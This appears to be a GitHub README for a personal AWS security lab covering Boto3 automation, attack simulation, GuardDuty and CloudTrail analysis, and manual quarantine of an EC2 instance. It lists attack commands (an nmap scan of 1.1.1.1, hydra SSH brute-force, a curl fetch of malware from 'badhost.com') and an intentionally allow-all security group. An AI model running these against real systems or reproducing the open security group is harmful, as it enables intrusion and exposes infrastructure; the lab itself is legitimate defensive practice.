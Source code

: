 # ☁️ AWS Cloud SOC Lab: Detection, Attack Simulation & Incident Response

## 📌 Overview
This project is a hands-on simulation of a cloud security incident in AWS, built to practice infrastructure automation, attack simulation, and incident response. I automated the creation of an AWS environment, simulated malicious activity, detected threats with GuardDuty, and performed manual containment just like a SOC analyst. All work was done in a fully isolated AWS environment using Kali Linux.

📁 Full project documentation with all screenshots and commands:  
👉 [documenting.md](https://github.com/jmcoded0/-AWS-Cloud-SOC-Lab-Detection-Attack-Simulation-Incident-Response/blob/main/documenting.md)

## 🎯 Project Goals
- Automate AWS infrastructure (VPC, EC2, security groups) using Python and Boto3.
- Simulate real-world attacks (port scans, SSH brute-force, fake malware downloads).
- Analyze GuardDuty findings and CloudTrail logs to extract IOCs.
- Practice SOC analyst tasks like quarantining compromised resources.

## ⚙️ Phases

### ✅ Phase 1: VPC Automation
- Created a custom VPC (`10.0.0.0/16`), subnets, Internet Gateway, and Route Table using Boto3.
- Used `config.py` for reusable variables.
- **Lesson:** Break scripts into steps and print IDs for easier debugging.

### ✅ Phase 2: Security Group Setup
- Created `coded-sg-v2` security group allowing all traffic (lab-only, insecure).
- Verified default VPC ID using AWS CLI.
- **Lesson:** Intentionally insecure setups maximize detection visibility.

### ✅ Phase 3: EC2 Attacker Setup
- Launched an Ubuntu EC2 instance (`t2.micro`, AMI: `ami-04b70fa74e45c3917`).
- Configured CloudWatch Agent via SSM Parameter Store to monitor logs (`/var/log/syslog`, `/var/log/auth.log`) and metrics.
- Installed tools like `nmap` and `curl` for attack simulation.
- **Lesson:** SSM-managed configs are scalable for monitoring.

### ✅ Phase 4: Attack Simulation
- Simulated:
  - Port scans: `nmap -sS 1.1.1.1`
  - SSH brute-force: `hydra`
  - Fake malware downloads: `curl http://badhost.com/malware`
- Triggered GuardDuty malware detection events (`/aws/guardduty/malware-scan-events`).
- **Lesson:** Even failed commands can trigger behavioral detections.

### ✅ Phase 5: Forensics and IOC Extraction
- Analyzed GuardDuty findings:
  - `Recon:EC2/Portscan`
  - `Backdoor:EC2/DenialOfService.TorClient`
- Extracted IOCs such as:
  - IP: `1.1.1.1`
  - Port: `35`
  - Instance ID: `i-0bca611a4c23538c8`
- Encountered CloudTrail permission error (`cloudtrail:LookupEvents`).
- **Lesson:** IAM policies are critical gatekeepers.

### ✅ Phase 5.2: Manual Quarantine
- Tagged the compromised EC2 instance with `Quarantine=True`.
- Stopped the instance manually.
- **Lesson:** Manual containment builds real IR muscle memory.

### ✅ Phase 6: CloudTrail Analysis
- Correlated GuardDuty findings with CloudTrail logs.
- Investigated snapshot usage and event history.
- **Lesson:** Logs provide crucial context for incident reconstruction.

## 💡 Key Lessons
- Cloud security is tactical—it requires real, hands-on AWS practice.
- GuardDuty + CloudTrail offer deep visibility into threat activity.
- Manual response steps (like tagging or stopping instances) are valid IR actions.
- IAM permissions directly impact your ability to investigate.

## 🙋 Reflections
This project taught me how to think like a cloud security analyst—from building and misconfiguring infrastructure, to simulating real attacks, investigating alerts, and responding manually. It was a full, hands-on journey through AWS security tools like GuardDuty, CloudTrail, and IAM.
